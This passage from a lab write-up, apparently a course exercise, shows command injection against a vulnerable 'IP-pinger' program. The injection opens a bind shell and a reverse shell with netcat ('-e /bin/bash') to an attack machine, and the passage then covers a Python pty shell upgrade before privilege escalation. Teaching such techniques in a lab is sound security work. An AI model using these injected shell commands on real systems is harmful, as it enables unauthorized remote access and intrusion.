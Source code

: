 Now we are able to begin a Bind Shell, which sets up a listening port on our victim machine and gets the attack machine to connect to it. In this lab, this is executed through having two tabs open of a Terminal in the VLABS virtual machine, however in the real world - you would probably be working across two different machines.\\

On the target machine:
\begin{verbatim}
    python3 IP-pinger.py 8.8.8.8 && ncat -lvnp 4444 -e /bin/bash 
\end{verbatim}
The \verb|ncat -lvnp 4444| tells the \verb|ncat| software to listen on port 4444 for connections. We connect to port 4444 from the attack machine:
\begin{verbatim}
    ncat 192.168.1.1 4444
\end{verbatim}

Alternatively, we are able to use a Reverse Shell, where the target machine connects to the attack machine. On the attack machine, we specify the port to listen on:
\begin{verbatim}
    nc -lvnp 4443
\end{verbatim}
Then on the server we launch the Vulnerable IP Pinger program and connect to our attack machine:
\begin{verbatim}
    python3 IP-pinger.py 8.8.8.8 && nc 192.168.1.1 4443 -e /bin/bash
\end{verbatim}

Once we are into a reverse shell, we can make our lives a bit nicer - especially if we are going to be working in this environment for a while. The first step of this is to run the Bash command below to check if Python is running.
\begin{verbatim}
    which python python3
\end{verbatim}
The output from this will tell us which version is installed, if either and from there amend the following command as required to allow us to spawn a Bash shell
\begin{verbatim}
    python3 -c 'import pty;pty.spawn("/bin/bash")'
\end{verbatim}

We can then run the two subsequent Bash commands which make the terminal environment more user friendly
\begin{verbatim}
    export SHELL=bash
    export TERM=xterm-256color
\end{verbatim}

From here we can work through privilege escalation and aim to gain root access, or access to whatever other system we are attempting to get into. 